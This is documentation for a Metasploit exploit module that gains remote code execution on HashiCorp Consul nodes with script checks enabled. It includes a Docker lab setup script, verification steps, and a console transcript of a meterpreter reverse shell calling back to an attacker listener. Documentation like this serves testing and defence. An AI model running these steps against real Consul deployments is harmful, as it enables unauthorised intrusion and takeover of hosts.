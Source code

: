 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `-enable-script-checks` configuration flag set to true, or running version 0.9.0 or earlier, with Consul API available on an interface that can be accessed over the network.

### Description

This module exploits Hashicorp Consul's Services API to gain remote command execution on a Consul node.

The exposure of the Services API depends on the `enable_script_checks` option. This option is opt-in for Consul nodes operators.

### Test Setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:1.0.7 agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:1.0.7 agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
[+] Launching consul instances...
138b09eff12867fcc436b8f5d6366c5aebf3be54864789a675e133a865d436bf
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
36e14072dec5  172.17.0.1:8301  alive   server  1.0.7  2         dc1  <all>
138b09eff128  172.17.0.2:8301  alive   client  1.0.7  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_service_exec`
  4. Do: `set RHOST 172.17.0.2`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf > use exploit/multi/misc/consul_service_exec
msf exploit(multi/misc/consul_service_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/consul_service_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf exploit(multi/misc/consul_service_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating service 'BBBDX'
[*] Service 'BBBDX' successfully created.
[*] Waiting for service 'BBBDX' script to trigger
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Removing service 'BBBDX'
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
